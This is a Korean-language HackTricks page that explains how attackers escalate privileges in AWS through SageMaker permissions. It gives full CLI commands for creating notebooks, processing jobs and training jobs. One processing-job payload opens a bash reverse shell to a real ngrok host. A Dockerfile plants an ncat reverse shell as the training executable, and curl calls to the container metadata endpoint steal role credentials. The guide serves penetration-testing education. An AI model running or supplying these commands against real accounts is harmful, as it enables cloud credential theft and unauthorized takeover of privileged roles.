 # AWS - Sagemaker Privilege Escalation

## AWS - Sagemaker Privilege Escalation

<details>

<summary><strong>AWS 해킹을 처음부터 전문가까지 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 요령을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃헙 저장소에 제출**하세요.

</details>

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM 역할이 부여된 노트북을 생성하기 시작하세요:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
다음은 새로 생성된 노트북 인스턴스의 ARN이 포함된 `NotebookInstanceArn` 필드가 포함되어야 합니다. 그런 다음 `create-presigned-notebook-instance-url` API를 사용하여 준비가 완료되면 노트북 인스턴스에 액세스하는 데 사용할 수있는 URL을 생성할 수 있습니다:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
브라우저에서 URL로 이동하고 오른쪽 상단의 'JupyterLab 열기'를 클릭한 다음 "Launcher" 탭으로 스크롤하여 "기타" 섹션 아래에 있는 "터미널" 버튼을 클릭합니다.

이제 IAM 역할의 메타데이터 자격 증명에 액세스할 수 있습니다.

**잠재적인 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

이미 실행 중인 Jupyter **노트북이 있는 경우** `sagemaker:ListNotebookInstances`를 사용하여 목록을 볼 수 있습니다(또는 다른 방법으로 발견할 수 있음). **그들을 위한 URL을 생성하고 액세스하여 이전 기술에서 나타낸 대로 자격 증명을 탈취할 수 있습니다**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**잠재적 영향:** sagemaker 서비스 역할에 대한 권한 상승.

### `sagemaker:CreateProcessingJob,iam:PassRole`

해당 권한을 가진 공격자는 sagemaker가 sagemaker 역할이 부여된 처리 작업을 실행하도록 할 수 있습니다. 공격자는 실행될 **AWS 관리형 ECS 계정 인스턴스**에서 컨테이너의 정의를 지정하고 부여된 IAM 역할의 자격 증명을 **탈취**할 수 있습니다.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할에 대한 권한 상승

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

해당 권한을 가진 공격자는 훈련 작업을 생성할 수 있으며, 그 작업에 **연결된 역할**을 가진 임의의 컨테이너를 실행할 수 있습니다. 따라서, 공격자는 역할의 자격 증명을 탈취할 수 있게 됩니다.

{% hint style="warning" %}
이 시나리오는 이전 것보다 더 어렵게 악용될 수 있습니다. 왜냐하면 공격자에게 직접 rev 쉘 또는 자격 증명을 전송할 Docker 이미지를 생성해야 하기 때문에 (훈련 작업의 구성에서 시작 명령을 지정할 수 없음).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

해당 권한을 가진 공격자는 (가능성이 있음) **하이퍼파라미터 튜닝 작업**을 생성하고, **역할이 부여된** 임의의 컨테이너를 실행할 수 있을 것입니다.\
_시간 부족으로 아직 악용하지 않았지만, 이전 공격과 유사해 보입니다. 악용 세부 정보를 PR로 제출해 주시면 됩니다._

## 참고 자료

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>제로부터 AWS 해킹 전문가가 되기까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
